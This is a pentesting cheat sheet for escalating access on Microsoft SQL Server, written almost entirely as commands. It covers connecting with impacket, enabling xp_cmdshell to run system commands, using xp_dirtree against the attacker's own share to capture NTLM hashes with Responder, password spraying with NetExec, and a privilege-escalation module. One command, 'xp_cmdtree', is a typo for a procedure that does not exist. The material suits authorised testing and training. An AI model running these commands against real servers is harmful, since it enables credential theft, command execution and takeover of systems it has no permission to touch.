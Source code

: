 # MSsql Escalation

## Remote Connection

impacket-mssqlclient -windows-auth '<domain>/<username>:<password>'@<tartget_ip>
impacket-mssqlclient '<username>:<password>'@<tartget_ip>

## Basic Information

select @@version; # version of ms_sql
SELECT is_srvrolemember('sysadmin'); #checks if we are admin
select system_user; # returns the current user in the db


## Try to get access to xp_cmdshell

Use shell commands

	EXEC xp_cmdshell 'net user'; # This allows us to execute commands.
	exec xp_cmdtree 'whoami'; # This allows us to execute commands.


If we cant use it we need to activate it.

	EXEC sp_configure 'show advanced options', 1;
	RECONFIGURE;
	EXEC sp_configure 'xp_cmdshell', 1;
	RECONFIGURE;

## Get NTLM hash

Check if we can do a xp_dirtree

	exec xp_dirtree 'c:\'; # Checks if we can list files
	if this is successful we can now try to do a request back to us
	exec xp_dirtree '\\our_ip\test\test';
	we can check if we receive the request with nc. This request will attempt a ntlm authentication, so we can start responder to get the hash and then try to crack it. The test share and file dont have to exist


## With NetExec

### Password Spray

	netexec mssql <targetip> -u <file_with_usernames> -p <file_with_passwords>
	netexec mssql DCO1 -u usernames.txt -p passwords.txt

### PrivEsc

	netexec mssql <targetip> -u <username> -p <password> -M mssql_priv
	netexec mssql <targetip> -u <username> -p <password> -M mssql_priv -o ACTION=privesc

### Execute Queries

	netexec mssql <targetip> -u <username> -p <password> -q 'SELECT name FROM master.dbo.sysdatabases;'


## Db enum

Show databases:

	SELECT name FROM sys.databases;

Use database:

	USE <database_name>;

Show tables:

	SELECT table_name FROM information_schema.tables WHERE table_type = 'BASE TABLE';

## Relevant Information

	https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
	https://www.netexec.wiki/mssql-protocol/